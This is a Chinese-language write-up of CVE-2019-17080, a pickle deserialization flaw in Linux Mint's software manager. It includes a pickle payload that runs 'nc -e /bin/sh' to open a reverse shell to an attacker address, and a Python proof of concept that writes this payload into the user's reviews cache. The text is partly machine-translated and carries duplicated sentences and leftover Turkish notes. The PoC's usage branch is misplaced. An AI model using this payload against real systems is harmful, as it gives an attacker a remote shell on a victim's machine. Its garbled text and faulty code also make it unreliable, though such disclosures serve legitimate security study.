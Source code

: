 （CVE-2019-17080）Mintinstall object injection
==============================================

一、漏洞简介
------------

Linux mint软件管理器（v 7.9.5 /
9）由于配置错误而导致对象注入和任意代码执行。

Linux Mint Software Manager（v 7.9.5 /
9）由于配置错误而导致我们执行对象注入和任意代码

二、漏洞影响
------------

Version: 7.9.9

三、复现过程
------------

    mintinsall

我们运行Mint软件管理器还会检查是否有新注释，如果[new-reviews.list](https://community.linuxmint.com/data/)
下载中有 新注释并写入文件。

如果有新评论，请从文件[new-reviews.list](https://community.linuxmint.com/data/)下载并写入文件

    code mintinstall.py

首次启动软件管理器时，它会从评论模块调用ReviewCache（）类。

### 它如何处理数据？

    code reviews.py

当ReviewCache类启动（init）时，它将调用\_load\_cache（）函数。

加载缓存功能读取REVIEWS\_CACHE变量中的文件，并在pickle模块的帮助下，对文件中的数据进行反序列化并在内存中保存一些值

当我检查文件时，看起来好像可以写文件。

[Pickle](https://docs.python.org/3.6/library/pickle.html)
因为我们可以使用模块执行序列化/反序列化操作，所以可以包含模块并使用reduce方法执行任意代码。

如果您尝试反序列化文件，则我们的恶意代码将起作用。

    cos 
    system 
    (S'nc -e /bin/sh 192.168.2.138 4545' 
    tR.
    >>modül adı c{os}
    >> fonksiyon
    ( >> işaretleyici nesnesi 
    S >> tırnak sonuna kadar okuyup stack'e at
    tR. >> stackte olanları çagır ve sonucu stacke yerleştir.

alt-text

poc

    import os
    import sys
    def shellCode(payload):
        with open(f"{os.getenv('HOME')}/.cache/mintinstall/reviews.cache","w") as wb:
            wb.write(payload)
        print("[+] Start mintinstall")
    if __name__=="__main__":
        shellCode(f"""cos\nsystem\n(S"nc -e /bin/sh {sys.argv[1]} {sys.argv[2]}"\ntR.""")
    else:
        print("[!] exploit.py [IP] [PORT]"
